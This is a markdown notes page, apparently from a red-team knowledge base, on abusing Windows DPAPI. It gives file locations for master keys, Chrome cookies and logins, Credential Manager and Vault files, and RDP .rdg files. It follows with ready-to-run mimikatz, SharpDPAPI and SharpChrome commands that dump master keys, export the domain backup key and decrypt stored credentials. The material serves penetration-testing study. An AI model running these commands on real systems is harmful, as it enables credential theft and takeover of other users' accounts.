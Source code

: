 # Abusing DPAPI

Windows' [[dpapi|Data Protection API (DPAPI)]] is used by several applications to encrypt secrets:

- Windows Credential Manager
- Windows Vault
- Google Chrome
- Remote Desktop Gateway files (`.rdg`)

These encrypted secrets are stored in standard locations. Depending on your level of access to a system, you can retrieve and decrypt these secrets, potentially opening up new access paths.

---

## Locations

DPAPI keys and the secrets that common applications encrypt/decrypt with DPAPI are stored in common paths in the filesystem.

All these can be listed using [SeatBelt's](https://github.com/GhostPack/Seatbelt) `user` command. If unelevated, it will show only the current user's. If elevated, it will show all users'.

In addition to listing each of these assets individually, SeatBelt will also draw the master key to secret relationship for you. When targeting a particular secret, make sure you know the GUID of its corresponding master key.

### Users' Master Keys

As mentioned [[dpapi|here]], each user can have zero or more master keys generated for them. Each is identified by a GUID (i.e., `{...}`) and stored in a file at `C:\Users\$USERNAME\AppData\Roaming\Microsoft\Protect\$USER_SID\$MASTER_KEY_GUID`.

Note that each master key is stored encrypted and can only be decrypted by the user's logon password **or** the domain backup DPAPI key.

### Google Chrome

- A user's cookies are stored in `C:\Users\$USERNAME\AppData\Local\Google\Chrome\User Data\Default\Cookies\`
- A user's saved login credential sare stored in `C:\Users\$USERNAME\AppData\Local\Google\Chrome\User Data\Default\Login Data\`

### Windows Credential Manager and Windows Vaults

Since Windows 7, Windows Credential Manager allows users to store credentials for websites and network resources.

- User credentials: `C:\Users\$USERNAME\AppData\Local\Microsoft\Credentials\`
- System credentials: `%SYSTEMROOT%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\`
- User vaults:
	- Stored at `C:\Users\$USERNAME\AppData\Local\Microsoft\Vault\$VAULT_GUID\`
		- Within each vault folder, there is a `Policy.vpol` file which contains two keys (AES128 AND AES256)
		- These two keys are encrypted by the user's DPAPI master key
		- These two keys, when decrypted, can be used to decrypt one or more `*.vcrd` files in the same folder

Note that these credentials were encrypted within LSA with the [CRYPTPROTECT_SYSTEM](https://docs.microsoft.com/en-us/previous-versions/ms995355(v=msdn.10)?redirectedfrom=MSDN) flag, which prevents them from being decrypted outside LSA, even by the current user. Thus, if you are targeting the current user, [[abusing-dpapi#Technique 1 Targeting the Current User|technique #1]] won't work--you need to explicitly pass in the target secret's corresponding master key. You'll have to use [[abusing-dpapi#Technique 3 Local Admin Targeting a Non-Logged On User with Their Plaintext Password or NTLM|technique #3]] instead.

### Remote Desktop Connection Manager Files (`.rdg`)

Windwos' Remote Desktop Connection Manager allows you to save RDP credentials encrypted via DPAPI. They are stored in `.rdg` files. There is no common location for them, but they're worth being aware of.

---

## Abuse Techniques

Based on your access level, there are four broad techniques for abusing DPAPI to decrypt these applications' secrets.

### Technique #1: Targeting the Current User

DPAPI is designed to be called by the current user without having to provide a master key. Thus, you can simply [[abusing-dpapi#Targeting Current User No Master Key Needed|decrypt the target secret]].

### Technique #2: Local Admin, Targeting a Logged On User

Grab the current logged on users' DPAPI master keys.

```batch
mimikatz sekurlsa::dpapi
```

Note the master key that matches the GUID of the master key used to encrypt the target secret. Leverage that master key to [[abusing-dpapi#Targeting Other User Master Key Needed|decrypt the secret]].

### Technique #3: Local Admin, Targeting a Non-Logged On User with Their Plaintext Password or NTLM

Leverage [[runas]] (or Cobalt Strike's [[cobalt-strike-user-impersonation#Make Token with Credential|make_token]] or [[cobalt-strike-user-impersonation#Spawn New Beacon with Credential|spawnas]]) with the target user's credential to spawn a new logon session as them. This logon session works through the network only, so [[abusing-dpapi#Technique 1 Targeting the Current User|technique #1]] isn't going to work.

Instead, leverage the network only logon session to take advantage of MS-BKRP (BackupKey Remote Protocol) to request the domain controller to decrypt the target user's master key for you using the domain DPAPI backup key.

```batch
mimikatz [@]dpapi::masterkey /in:"$PATH_TO_TARGET_USERS_MASTER_KEY_FILE" /rpc
```

- Note the `@` prefix is only necessary to force Cobalt Strike to use the network only session token

With the master key in hand, [[abusing-dpapi#Targeting Other User Master Key Needed|decrypt the secret]].

### Technique #4: Elevated Domain Access, Targeting any Domain User

With elevated domain access, request the domain DPAPI backup key from the domain controller.

```batch
mimikatz lsadump::backupkeys /system:$FQDN_OR_IP_OF_DC /export
```

- This produces the backup key in a `.pvk` file that needs to be exfiltrated

OR

```batch
SharpDPAPI.exe backupkey
```

- This produces the backup key as a base64 blob

With the domain backup key in hand, you can now exfiltrate any target master keys and secrets and decrypt them offline.

Decrypt the target master key using the domain backup key.

```batch
mimikatz dpapi::masterkey /in:$PATH_TO_MASTER_KEY_FILE /pvk:$PATH_TO_DOMAIN_BACKUP_KEY_PVK_FILE
```

With the master key in hand, [[abusing-dpapi#Targeting Other User Master Key Needed|decrypt the secret]].

---

## Decrypting a Secret

### Targeting Current User, No Master Key Needed

- Chrome Cookies or Logins File

```batch
mimikatz dpapi::chrome /in:"$PATH_TO_CHROME_COOKIES_OR_LOGINS_FILE" /unprotect
```

```batch
SharpChrome.exe cookies /unprotect
```

```batch
SharpChrome.exe logins /unprotect
```

- Remote Desktop Connections Manager File (`.rdg`)

```batch
mimikatz dpapi::rdg /in:"$PATH_TO_RDG_FILE" /unprotect
```

```batch
SharpDPAPI.exe rdg /unprotect
```

### Targeting Other User, Master Key Needed

Note that `SharpDPAPI` and `SharpChrome` offer multiple ways of specifying one or more master keys. See the documentation for specifics. Below is a common method.

- Chrome Cookies or Logins File

```batch
mimikatz dpapi::chrome /in:"$PATH_TO_COOKIE_OR_LOGINS_FILE" /masterkey:$MASTERKEY
```

```batch
SharpChrome.exe cookies $MASTERKEY_GUID:$MASTERKEY_SHA1
```

```batch
SharpChrome.exe logins $MASTERKEY_GUID:$MASTERKEY_SHA1
```

- Remote Desktop Connections Manager File (`.rdg`)

```batch
mimikatz dpapi::rdg /in:"$PATH_TO_RDG_FILE" /masterkey:$MASTERKEY
```

```batch
SharpDPAPI.exe rdg $MASTERKEY_GUID:$MASTERKEY_SHA1
```

- Windows Credential Manager or Windows Vault file:

```batch
mimikatz dpapi::cred /in:"$PATH_TO_FILE" /masterkey:$MASTERKEY
```

```batch
SharpDPAPI.exe credentials $MASTERKEY_GUID:$MASTERKEY_SHA1
````

```batch
SharpDPAPI.exe vaults $MASTERKEY_GUID:$MASTERKEY_SHA1
```

---

## References

[Operational Guidance for Offensive DPAPI Abuse - SpecterOps](https://posts.specterops.io/operational-guidance-for-offensive-user-dpapi-abuse-1fb7fac8b107)

[SharpDPAPI & SharpChrome GitHub Repository](https://github.com/GhostPack/SharpDPAPI)

[Mimikatz dpapi](https://tools.thehacker.recipes/mimikatz/modules/dpapi)
